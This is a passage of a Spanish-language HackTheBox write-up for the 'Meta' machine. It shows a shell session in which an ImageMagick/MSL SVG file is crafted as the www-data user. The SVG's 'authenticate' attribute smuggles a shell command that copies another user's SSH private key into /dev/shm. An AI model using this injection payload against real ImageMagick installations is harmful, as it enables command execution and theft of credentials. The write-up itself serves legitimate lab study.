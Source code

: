 ```bash
www-data@meta:/usr/local/bin$ ls -l /usr/local/bin/mogrify
lrwxrwxrwx 1 root root 6 Aug 29  2021 /usr/local/bin/mogrify -> magick
www-data@meta:/usr/local/bin$ 
```

Podemos ejecutar comandos gracias a eso <https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html>

Como tenemos que convertirnos en el usuario `thomas` para leer la **user.txt** podemos decirle que realice una copia de la **id_rsa** a la ruta **/dev/shm** todo atravez de un archivo **svg**

![](/assets/images/htb-writeup-meta/web15.png)

```bash
www-data@meta:/dev/shm$ nano poc.svg
Unable to create directory /var/www/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

Press Enter to continue

www-data@meta:/dev/shm$ cat poc.svg 
<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
www-data@meta:/dev/shm$ 
```
